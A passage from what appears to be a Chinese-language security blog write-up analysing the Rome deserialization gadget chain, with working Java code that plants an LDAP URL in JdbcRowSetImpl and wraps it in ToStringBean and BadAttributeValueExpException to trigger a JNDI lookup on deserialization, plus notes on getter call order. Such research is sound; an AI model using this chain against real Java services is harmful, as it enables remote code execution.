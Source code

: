 回到Rome，真的有可能走到我们想要的getter而不报错吗？调试一下Rome结合JdbcRowSetImpl的利用代码

```plain
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈[![](assets/1698893403-8fb021f69986e71ddf4f5b570cdab6c1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210233-6f9d6318-6ced-1.png)

在ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

-   getQueryTimeout
-   getEscapeProcessing
-   getMaxFieldSize
-   **getDatabaseMetaData()**
-   .............

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成List就行）来的，而我们都知道HashMap是根据**键的哈希值**来确定存储顺序的（相当于随机了）
